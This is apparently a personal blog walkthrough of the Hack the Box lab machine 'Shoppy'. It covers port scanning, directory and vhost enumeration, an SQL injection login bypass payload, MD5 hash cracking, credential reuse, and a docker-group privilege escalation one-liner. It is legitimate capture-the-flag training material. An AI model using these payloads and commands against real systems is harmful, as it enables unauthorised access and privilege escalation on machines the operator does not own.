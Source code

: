 +++
author = "Nick"
categories = ["hack the box", "Easy"]
date = 2023-1-14
publishDate = 2023-01-14
description = ""
draft = false
thumbnail = "/images/shoppy/logo.png"
slug = "hack-the-box-shoppy"
summary = ""
tags = ["hack the box", "Easy", "Linux", "Burpsuite", "gobuster", "SQL Injection", "container", "gtfobins", "hashcat"]
title = "Hack the Box - Shoppy"
url = "/hack-the-box-shoppy"
+++

Welcome back! Today we are going to be doing the Hack the Box machine - Shoppy. This machine is listed an as Easy machine. Let's start!

As usually, we start with an `nmap` scan. Here are the results:

```
Nmap scan report for 10.10.11.180
Host is up (0.080s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 30 Sep 2022 13:57:05 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 18
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 18
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.2374e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.0354e-05
|     go_gc_d
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 30 Sep 2022 13:57:06 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 18
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 18
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.2374e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.0354e-05
|_    go_gc_d
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.92%I=7%D=9/30%Time=6336F5B2%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,1000,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\
SF:x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Fri,\x2
SF:030\x20Sep\x202022\x2013:57:05\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles_
SF:total\x2018\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\
SF:x20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20applicatio
SF:n\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc
SF:_cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc
SF:_cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x
SF:20TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_t
SF:otal_gc_cycles_total\x2018\n#\x20HELP\x20go_gc_duration_seconds\x20A\x2
SF:0summary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collecti
SF:on\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_d
SF:uration_seconds{quantile=\"0\"}\x204\.2374e-05\ngo_gc_duration_seconds{
SF:quantile=\"0\.25\"}\x209\.0354e-05\ngo_gc_d")%r(HTTPOptions,152B,"HTTP/
SF:1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\x
SF:20charset=utf-8\r\nDate:\x20Fri,\x2030\x20Sep\x202022\x2013:57:06\x20GM
SF:T\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20ru
SF:ntime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counter
SF:\ngo_gc_cycles_automatic_gc_cycles_total\x2018\n#\x20HELP\x20go_gc_cycl
SF:es_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_force
SF:d_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\
SF:n#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\
SF:x20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycl
SF:es_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x2018\n#\x20HEL
SF:P\x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20du
SF:ration\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_d
SF:uration_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x204
SF:\.2374e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x209\.0354e-05\n
SF:go_gc_d");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see three ports - `22`, `80` and `9093`. We also see that we should probably add `shoppy.htb` to our hosts file. We'll start up `burpsuite` and see what's happening on port `80`. We get a landing page saying that the service is coming soon. Looks like we'll start enumerating with `gobuster` and or `ffuf`.

Command:
`gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Right away we see `/login` and `/admin`.

![](/images/shoppy/shoppy1.png)

We head over to the login screen. We try to login with some basic's like `admin` | `admin` and the such but nothing. When we try to give it a basic `SQL Injection` we get a `504 timeout`. There could be something here. After a while of trying all sorts of injections on the field, we land on `admin' || '1=1-- -` letting us login!

![](/images/shoppy/shoppy2.png)

Now that we're in we can see we have access to a `search for users` function. What are the chances we can use the same 'Always true' statement that logged us in, in this field? Sure enough, it also works. We are given a link to 'Download export' The export only contains two users - `josh` and `admin`.

![](/images/shoppy/shoppy3.png)

These hashes look to be `MD5` at first glace. We can crack those pretty easy this day in age.

Command:
`hashcat -m 0 '6ebcea65320589ca4f2f1ce039975995' /usr/share/wordlists/rockyou.txt`

And we get back a match:
`6ebcea65320589ca4f2f1ce039975995:remembermethisway`

So now we have a password for `Josh`. We aren't able to use it for `SSH` so we must be missing something. During our enumeration processes we didn't try to enumerate any subdomains. There very well could be another site being hosted. We'll take a pass with `gobuster` to see if we can enumerate anything additional.

Command:
`gobuster vhost -u shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

That didn't turn up any results. We'll try again with a different lists and we end up finding `mattermost.shoppy.htb`. We'll add this to our hosts file and see what's being hosted.

![](/images/shoppy/shoppy4.png)

Sure enough, there is a login right as we load the page. We are able to login as `josh`. Once we get logged we can dig around and see what we can find. We find an interesting tidbit - 

'Hey @jaeger, when I was trying to install docker on the machine, I started learn C++ and I do a password manager. You can test it if you want, the program is on the deploy machine.'

We can take a look at the 'Deploy Machine' on the side links and see that we have some credentials to that machine given to us - `jaeger`:`Sh0ppyBest@pp!`. Now we can test these credentials against `SSH` to see if we are able to log into that container.

We are able to log into that container and the `user.txt` flag is waiting for us! Now that we're on the box, and we know it's a container, we'll need to seek a way to break out. Generally to do that we need a method to `root`. Let's start to enumerate. A quick `sudo -l` shows we can run `/home/deploy/password-manager` as the `Deploy` user. This was probably the tool that was noted in `mattermost`. So let's try to run the app.

We see we are expected to answer the 'Master Password'.
![](/images/shoppy/shoppy5.png)

We try a few basic passwords but nothing works. So we run `strings` on the file and see something but no password:
![Strings command](/images/shoppy/shoppy6.png)

Next we try `cat`:
![cat command](/images/shoppy/shoppy7.png)

This time we have a bit more insight, we see the password as `Sample`. We plug it into the app and gain some new credentials - `deploy`:`Deploying@pp!`.

![](/images/shoppy/shoppy8.png)

Let's `SSH` into this container using these credentials. Now we're in with another account, let's enumerate. We aren't able to run `sudo` as the `deploy` user. So we'll get a copy of `linpeas` on the container and see what we mightr be able to find. We start up our `SimpleHTTPServer` and user `wget` to download the `linpeas` script. Then we run it.

We see that one of the 95%  Escalation Vectors that pops up is that the user belongs to the `Docker` group. So we can check [hatrick](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout) and [gtfo bins](https://gtfobins.github.io/gtfobins/docker/) for paths up. We will try the following:

Command:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

It works, we escalate to `root` in the container!

![Priv Esc works!](/images/shoppy/shoppy9.png)

We then `cat` the `root.txt` flag and box is completed!